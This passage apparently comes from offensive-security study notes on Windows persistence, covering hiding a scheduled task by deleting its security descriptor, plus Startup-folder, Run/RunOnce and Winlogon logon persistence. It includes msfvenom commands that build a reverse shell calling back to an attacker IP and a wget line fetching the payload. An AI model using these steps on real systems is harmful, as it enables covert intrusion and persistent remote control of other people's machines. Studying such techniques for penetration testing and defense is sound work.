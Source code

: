 ##### Making Our Task Invisible

You can delete the Security Descriptor (SD) of the task which is an ACL that states which users have access to the task, including seeing the task, deleting it will result in disallowing all users.

`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` - The location of all the Security Descriptors of the tasks, the SD value under each task key contains the Security Descriptor.

`<PsExec64.exe file location> -s -i regedit` - Open the registry with SYSTEM privileges.

Now delete the SD, start a listener and you should get a shell after a minute.

## Logon Triggered Persistence

In all of the methods you'll need to start a listener and than log out and back in to the machine.

##### Startup Folder

`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` - The location for executables to run whenever the user logs in.
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` - The location for executables to run whenever any user logs in.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe -o <output file name>` - Create a reverse shell.
`python3 -m http.server` - Start a simple http server.
`wget http://<ATTACKER_IP>:8000/<payload file name> -O <output file name>` - Get the reverse shell to the target machine.

Now copy the file to the StartUp folder using the `copy` command.

##### Run / RunOnce

Registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Run is for every time the user logs in and programs under RunOnce will run only once.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe -o <output file name>` - Create a reverse shell.

Now move it to the `C:\Windows\` folder and create an entry at the registry with type `RED_EXPAND_SZ` and data as the path of the file.

##### Winlogon

The windows component that loads user profiles right after authentication (and other things too).

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` - Location for Winlogon registry keys:

- `userinit`: In charge of restoring your user profile preferences.
- `shell`: Points to the system's shell, usually `explorer.exe`.
